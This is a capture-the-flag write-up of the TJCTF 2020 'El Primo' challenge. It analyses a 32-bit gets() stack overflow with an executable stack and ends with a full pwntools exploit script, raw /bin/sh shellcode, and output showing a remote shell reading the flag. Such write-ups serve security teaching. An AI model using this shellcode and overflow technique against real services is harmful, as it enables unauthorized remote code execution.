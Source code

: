 # TJCTF 2020

## El Primo

> 60
>
> My friend just started playing Brawl Stars and he keeps raging because he can't beat [El Primo](primo)! Can you help him?
> 
> `nc p1.tjctf.org 8011`
>
> Written by agcdragon

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _gets_ _shellcode_


## Summary

32-bit stack overflow, shellcode, with a twist.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Some mitigations.  No GOTplay.  ASLR enabled.  Executable stack.

    
### Decompile with Ghidra

![](main.png)

Direct and to the point.  Line 15 leaks a stack address (`local_30`), and line 16 is yet another `gets` vulnerability.

So, just put 32 bytes of shellcode in `local_30` and then put the address of `local_30` as the return address, right?  _Wrong._

Just before `main` ends `ESP` is set to what `ECX - 4` references.  So, we'll have to set ECX as well, and fortunately it is popped off the stack.  A stack we control thanks to the leak and `gets`:

```
        000106a8 8d 65 f8        LEA        ESP=>local_10,[EBP + -0x8]
        000106ab 59              POP        ECX
        000106ac 5b              POP        EBX
        000106ad 5d              POP        EBP
        000106ae 8d 61 fc        LEA        ESP,[ECX + -0x4]
        000106b1 c3              RET
```


`local_30` is `0x30` bytes above the return address:

```
             undefined4        EAX:4              <RETURN>
             undefined1        Stack[0x4]:1       param_1 
             undefined4        Stack[0x0]:4       local_res0  
             undefined1        Stack[-0x10]:1     local_10  
             undefined1        Stack[-0x30]:1     local_30
```

So, write out 32 or less bytes of shellcode to `local_30`, then pad with `A`, but leave the last 16 bytes for popping ECX, EBX, EBP, and RET.  But all we really care about is setting ECX to point to the next line in the stack that contains the address of the leak.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./primo')
p = remote('p1.tjctf.org', 8011)

binary = ELF('./primo')

p.recvuntil('hint: ')
_ = p.recvline().strip()
buf = int(_,16)
print('buf:',hex(buf))

shellcode = b'\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00'

payload  = shellcode
payload += (0x30 - len(shellcode) - 16) * b'A'
payload += p32(buf + 0x30 - 8)
payload += p32(buf)

p.sendline(payload)

p.interactive()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8011: Done
[*] '/pwd/datajerk/tjctf2020/primo/primo'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
buf: 0xffbfbb80
[*] Switching to interactive mode
$ cat flag.txt
tjctf{3L_PR1M0O0OOO!1!!}
```
